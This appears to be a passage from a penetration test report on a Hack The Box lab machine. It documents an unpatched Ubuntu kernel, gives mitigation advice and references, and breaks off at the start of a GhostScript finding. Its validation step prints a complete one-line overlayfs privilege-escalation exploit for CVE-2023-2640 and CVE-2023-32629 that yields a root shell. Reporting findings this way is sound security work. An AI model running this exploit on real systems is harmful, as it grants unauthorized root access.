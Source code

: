 ## HTBHSPTL-2024-01: Unpatched Operating System
### Observation
The tester found an unpatched version of the Linux kernel after compromising the web server on port 8080.

```shell
www-data@webserver:/var/www/html$ uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

### Affected Components
- Windows WSL Ubuntu on 10.129.229.189

### Description
"The product has a dependency on a third-party component that contains one or more known vulnerabilities."
- [MITRE CWE 1395](https://cwe.mitre.org/data/definitions/1395.html)

CVE-2023-2640 and CVE-2023-32629 were exploited using a proof of concept at [https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629), gaining root access.

### Mitigation
Maintain a regular patch schedule.

### Validation
Login to the Ubuntu install with the `www-data` user. Attempt to run the exploit:

```shell
www-data@webserver:/var/www/html/uploads$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

Verify root access is not obtained.
### References
- [https://nvd.nist.gov/vuln/detail/CVE-2023-2640](https://nvd.nist.gov/vuln/detail/CVE-2023-2640)
- [https://nvd.nist.gov/vuln/detail/CVE-2023-32629](https://nvd.nist.gov/vuln/detail/CVE-2023-32629)
- [https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

## HTBHSPTL-2024-02: Unpatched GhostScript Software
### Observation
The tester found use of GhostScript to process `.eps` files. A Windows batch file `ghostscript.bat` was found and the version of GhostScript verified as vulnerable.
